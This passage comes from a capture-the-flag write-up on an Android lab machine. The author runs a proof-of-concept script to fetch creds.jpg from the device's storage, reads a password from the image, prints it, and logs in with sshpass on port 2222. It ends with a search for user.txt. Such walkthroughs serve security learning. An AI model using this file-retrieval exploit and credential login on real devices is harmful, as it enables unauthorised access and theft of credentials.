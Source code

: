 
One of the images is named `creds.jpg`. I’ll get it:

    
    
    oxdf@parrot$ python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
    [*] Getting file: /storage/emulated/0/DCIM/creds.jpg
            from: 10.10.10.247
    [*] Server responded with: 200
    [*] Writing to file: creds.jpg
    

The image has kristi’s password:

[ ![](https://0xdfimages.gitlab.io/img/creds.jpg)
](https://0xdfimages.gitlab.io/img/creds.jpg)

[_Click for full image_](https://0xdfimages.gitlab.io/img/creds.jpg)

### SSH

#### Shell

Remembering to add `-p 2222` to change the port, SSH works:

    
    
    oxdf@parrot$ sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh -p 2222 kristi@10.10.10.247
    Password authentication
    :/ $
    

#### user.txt

There is no `/home` directory at the root of the Android os:

    
    
    :/ $ ls
    acct                   init.superuser.rc       sbin                      
    bin                    init.usb.configfs.rc    sdcard                    
    bugreports             init.usb.rc             sepolicy                  
    cache                  init.zygote32.rc        storage                   
    charger                init.zygote64_32.rc     sys                       
    config                 lib                     system                    
    d                      mnt                     ueventd.android_x86_64.rc 
    data                   odm                     ueventd.rc                
    default.prop           oem                     vendor                    
    dev                    plat_file_contexts      vendor_file_contexts      
    etc                    plat_hwservice_contexts vendor_hwservice_contexts 
    fstab.android_x86_64   plat_property_contexts  vendor_property_contexts  
    init                   plat_seapp_contexts     vendor_seapp_contexts     
    init.android_x86_64.rc plat_service_contexts   vendor_service_contexts   
    init.environ.rc        proc                    vndservice_contexts       
    init.rc                product
    

`find . -name user.txt 2>/dev/null` doesn’t return anything. This can happen
if there’s a directory that I can change through but not list, so `find` can’t
recurse through.

